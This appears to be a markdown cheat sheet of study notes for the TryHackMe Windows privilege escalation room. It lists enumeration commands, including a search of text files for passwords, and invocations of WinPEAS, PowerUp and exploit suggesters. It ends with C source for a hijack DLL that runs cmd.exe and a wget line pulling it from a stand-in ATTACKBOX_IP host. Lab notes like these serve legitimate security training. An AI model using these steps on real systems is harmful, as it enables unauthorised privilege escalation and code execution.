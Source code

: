# Windows Privesc

[Windows Privesc Room](https://tryhackme.com/room/winprivesc)

Learn the fundamentals of Windows privilege escalation. From enumeration to exploitation, get hands-on with privilege escalation techniques seen in the industry today.

## Information Gathering

### User Enumeration

```cmd
whoami /priv
net user
net user <USER>
qwinsta
query session
net localgroup
net localgroup <GROUP>
```

### Collecting system information

```cmd
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
hostname
```

### Searching files

```cmd
findstr /si password *.txt
```

### Patch level

```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Network Connections

```cmd
netstat -ano
```

### Scheduled Task

```cmd
schtasks
schtasks /query /fo LIST /v
```

### Drivers

```cmd
driverquery
```

### Antivirus

```cmd
sc.exe query windefend
```

## Tools of the trade

### WinPEAS

```cmd
winpeas.exe > outputfile.txt
```

### PowerUp

```cmd
powershell.exe -nop -exec bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

### Windows Exploit Suggester

```cmd
windows-exploit-suggester.py –update
windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt
```

### Metasploit

```bash
multi/recon/local_exploit_suggester
```

## Vulnerable SOftware

```cmd
wmic product
wmic product get name,version,vendor
wmic service list brief
wmic service list brief | findstr  "Running"
sc.exe qc <SERVICE>
```

- Searchsploit
- Metasploit
- Exploit-DB
- Github
- Google

## DLL Hijacking

```c
/* windows_dll.c */
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

rhost:

```cmd
wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll
```


